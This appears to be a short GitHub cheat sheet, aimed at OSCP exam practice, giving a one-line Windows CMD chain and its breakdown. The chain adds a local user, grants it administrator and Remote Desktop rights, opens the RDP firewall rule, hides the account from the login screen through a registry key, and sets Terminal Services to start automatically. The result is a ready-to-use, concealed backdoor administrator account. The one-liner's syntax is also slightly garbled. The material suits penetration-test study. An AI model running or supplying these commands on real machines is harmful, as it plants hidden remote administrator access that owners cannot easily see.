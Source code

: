 # Enable RDP in one line CMD

This is very helpful during OSCP.

Change Username and Password.

## CMD

net user /add # (Username) # (Password) && net localgroup administrators (Username) /add & net localgroup "Remote Desktop Users" (Username) /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v (Username) /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

### Explain

####Adding User: 
net user /add (Username) (Password)

#### Adding User in Administrator Group:
net localgroup administrators (Username) /add

#### Adding user in Remote Desktop Users:
net localgroup "Remote Desktop Users" (Username) /add

#### Opening Port in Local Firewall:
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

#### Hiding User from Window Login Screen:
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v (Username) /t REG_DWORD /d 0 

#### Setting Terminal Service in Startup Mode:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f

#### Setting Terminal Service in Auto Mode:
sc config TermService start= auto 
